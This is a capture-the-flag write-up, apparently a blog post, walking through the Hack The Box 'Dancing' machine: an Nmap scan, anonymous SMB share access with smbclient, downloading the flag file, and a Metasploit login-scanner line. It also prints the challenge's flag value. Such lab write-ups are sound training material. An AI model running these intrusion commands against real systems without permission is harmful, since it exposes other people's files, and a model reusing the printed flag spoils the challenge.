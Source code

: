 ```yaml
---
layout: post
title: "Dancing – Hack The Box"
categories: htb
date: 2025-07-19
---
```


## 🧠 Summary
The Dancing machine from HTB Starting Point demonstrates enumeration and exploitation of SMB shares using anonymous access. We'll use **Nmap** for scanning and **smbclient** for accessing shares without credentials.

---

## 🔍 Tools Used
- **Nmap** – Network scanning and service enumeration
- **smbclient** – SMB share access and file retrieval

---

## 🎯 Target Info
- **IP Address:** `10.129.207.91`
- **OS:** Windows
- **Difficulty:** Very Easy
- **Tags:** SMB, Enumeration, Anonymous Access

---

## ✅ Steps to Exploit

### 1. Reconnaissance with Nmap
First, scan the target for open ports and services:
```bash
nmap -sC -sV 10.129.207.91
```
Result:

![Nmap Scan Result](/assets/img/htb/dancing/nmapdancing.jpg)

Key Findings:
- Port 135 → Microsoft RPC
- Port 139 → NetBIOS
- Port 445 → SMB (microsoft-ds)

### 2. Enumerate SMB Shares
List available shares anonymously:
```bash
smbclient -L \\\\10.129.207.91\\ -N
```
**-L** : To list available shares

**-N** : No password prompt (useful for anonymous/guest access)

Result: Found a share named WorkShares

![List of SMB Shares](/assets/img/htb/dancing/smbshares.jpg)

### 3. Access the WorkShares Share
Connect without a password:
```bash
smbclient \\\\10.129.207.91\\WorkShares -N
```
List the folders:
```bash
ls
```
We will see:
```bash
Amy.J
James.P
```

### 4. Browse Directories and Find the Flag
Navigate into Amy.J:
```bash
cd Amy.J
ls
```
File found: worknotes.txt (not needed for flag, but useful for context)

Go back and enter James.P:
```bash
cd ..
cd James.P
ls
```
Here we find flag.txt:
![Get Flag File](/assets/img/htb/dancing/getflag.jpg)


### 5. Download and Read the Flag
Download the flag file:
```bash
get flag.txt
```
Read it locally:
```bash
cat flag.txt
```
Flag:
```bash
5f61c10dffbc77a704d76016a22f1664
```
![Read Flag File](/assets/img/htb/dancing/readflag.jpg)

### Alternative Method (Optional)
You could also enumerate SMB shares using enum4linux or exploit with Metasploit:
```bash
use auxiliary/scanner/smb/smb_login
```

### Key Takeaways
- SMB shares are often misconfigured for anonymous access.
- Always start with Nmap, then enumerate with smbclient.
- Use Metasploit or enum4linux for automation in real-world scenarios.
